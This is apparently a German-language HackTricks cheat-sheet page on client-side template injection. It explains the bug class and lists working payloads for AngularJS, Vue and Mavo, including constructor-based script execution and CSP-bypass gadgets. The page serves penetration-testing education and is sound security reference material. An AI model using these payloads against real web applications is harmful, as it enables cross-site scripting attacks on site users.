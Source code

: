 # Client Side Template Injection (CSTI)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}


## Zusammenfassung

Es ist wie eine [**Server Side Template Injection**](ssti-server-side-template-injection/), aber im **Client**. Die **SSTI** kann es Ihnen ermöglichen, **Code** auf dem Remote-Server auszuführen, die **CSTI** könnte es Ihnen ermöglichen, **willkürlichen JavaScript**-Code im Browser des Opfers auszuführen.

**Das Testen** auf diese Schwachstelle ist sehr **ähnlich** wie im Fall von **SSTI**, der Interpreter erwartet **eine Vorlage** und wird sie ausführen. Zum Beispiel, mit einer Payload wie `{{ 7-7 }}`, wenn die App **anfällig** ist, sehen Sie eine `0`, und wenn nicht, sehen Sie das Original: `{{ 7-7 }}`

## AngularJS

AngularJS ist ein weit verbreitetes JavaScript-Framework, das über Attribute, die als Direktiven bekannt sind, mit HTML interagiert, wobei eine bemerkenswerte **`ng-app`** ist. Diese Direktive ermöglicht es AngularJS, den HTML-Inhalt zu verarbeiten, wodurch die Ausführung von JavaScript-Ausdrücken innerhalb doppelter geschweifter Klammern ermöglicht wird.

In Szenarien, in denen Benutzereingaben dynamisch in den HTML-Body eingefügt werden, der mit `ng-app` gekennzeichnet ist, ist es möglich, willkürlichen JavaScript-Code auszuführen. Dies kann erreicht werden, indem die Syntax von AngularJS innerhalb der Eingabe genutzt wird. Nachfolgend sind Beispiele aufgeführt, die zeigen, wie JavaScript-Code ausgeführt werden kann:
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
Du kannst ein sehr **einfaches Online-Beispiel** der Verwundbarkeit in **AngularJS** unter [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/) und in [**Burp Suite Academy**](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression) finden.

{% hint style="danger" %}
[**Angular 1.6 entfernte die Sandbox**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html), sodass ab dieser Version ein Payload wie `{{constructor.constructor('alert(1)')()}}` oder `<input ng-focus=$event.view.alert('XSS')>` funktionieren sollte.
{% endhint %}

## VueJS

Du kannst eine **verwundbare Vue**-Implementierung unter [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh) finden.\
Funktionierender Payload: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor\(%27alert\(%22foo%22\)%27\)\(\)%7D%7D)

Und der **Quellcode** des verwundbaren Beispiels hier: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)
```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```
Ein wirklich guter Beitrag zu CSTI in VUE ist zu finden unter [https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V3**
```
{{_openBlock.constructor('alert(1)')()}}
```
Credit: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V2**
```
{{constructor.constructor('alert(1)')()}}
```
Credit: [Mario Heiderich](https://twitter.com/cure53berlin)

**Überprüfen Sie weitere VUE-Payloads in** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)

## Mavo

Payload:
```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
**Weitere Payloads in** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

## **Brute-Force Erkennungsliste**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt" %}



{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
